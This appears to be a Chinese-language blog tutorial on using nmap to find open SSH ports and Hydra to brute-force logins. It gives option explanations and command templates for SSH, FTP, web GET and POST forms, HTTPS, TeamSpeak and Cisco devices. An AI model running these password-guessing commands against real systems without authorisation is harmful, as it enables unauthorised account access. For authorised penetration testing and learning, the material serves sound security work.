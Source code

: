 
<p>使用kali自带的namp扫描网段</p>



<p>nmap -p 22 --script=banner 192.168.2.0/24</p>



<figure class="wp-block-image"><img src="http://www.shookm.com/wp-content/uploads/2020/01/image-6-1024x510.png" alt="" class="wp-image-391"/></figure>



<p>我们这里可以看到192.168.2.45的ssh端口（22）已经开放</p>



<p>接下来我们将使用本文主角Hydra"九头蛇"来暴力破解目标机器</p>



<pre class="wp-block-code"><code>我们现在命令行输入hydra -h来查看 Hydra的帮助信息 <br><br>   参数：<br>     -R 继续从上一次进度接着破解<br>     -S 大写，采用SSL链接<br>     -s 小写，可通过这个参数指定非默认端口<br>     -l 指定破解的用户，对特定用户破解<br>     -L 指定用户名字典<br>     -p 小写，指定密码破解，少用，一般是采用密码字典<br>     -P 大写，指定密码字典<br>     -e 可选选项，n：空密码试探，s：使用指定用户和密码试探<br>     -C 使用冒号分割格式，例如“登录名:密码”来代替-L/-P参数<br>     -M 指定目标列表文件一行一条<br>     -o 指定结果输出文件<br>     -f 在使用-M参数以后，找到第一对登录名或者密码的时候中止破解<br>     -t 同时运行的线程数，默认为16<br>     -w 设置最大超时的时间，单位秒，默认是30s<br>     -v /-V显示详细过程</code></pre>



<p>各协议的具体命令：<br>
    格式+示例：</p>



<pre class="wp-block-code"><code>(1)、破解ssh：
hydra -L 用户名字典 -p 密码字典 -t 线程 -vV -e ns ip ssh
hydra -l 用户名 -p 密码字典 -t 线程 -o save.log -vV ip ssh

(2)、破解ftp：
hydra ip ftp -L 用户名字典 -P 密码字典 -t 线程(默认16) -vV
hydra ip ftp -l 用户名 -P 密码字典 -e ns -vV

(3)、get方式提交，破解web登录：
hydra -L 用户名字典 -p 密码字典 -t 线程 -vV -e ns ip http-get/admin/
hydra -l 用户名 -p 密码字典 -t 线程 -vV -e ns -f ip http-get/admin/index.PHP

(4)、post方式提交，破解web登录：
hydra --L 用户名字典 -P 密码字典 -s 80 ip http-post-form"/admin/login.php:username=^USER^&amp;password=^PASS^&amp;submit=login:sorrypassword"
hydra -t 3 -l admin -P pass.txt -o out.txt -f 10.36.16.18 http-post-form"login.php:id=^USER^&amp;passwd=^PASS^:&lt;title>wrong username orpassword&lt;/title>"
参数说明：
-t同时线程数3，-l用户名是admin，字典pass.txt，保存为out.txt，-f 当破解了一个密码就停止， 
10.36.16.18目标ip，http-post-form表示破解是采用http的post方式提交的表单密码破解,&lt;title>中的内容是表示错误猜解的返回信息提示

(5)、破解https：
hydra -m /index.php -l muts -P pass.txt 10.36.16.18 https
(6)、破解teamspeak：
hydra -L 用户名字典 -P 密码字典 -s 端口号 -vV ip teamspeak

(7)、破解cisco：
hydra -P pass.txt 10.36.16.18 cisco
hydra -m cloud -P pass.txt 10.36.16.18 cisco-enable
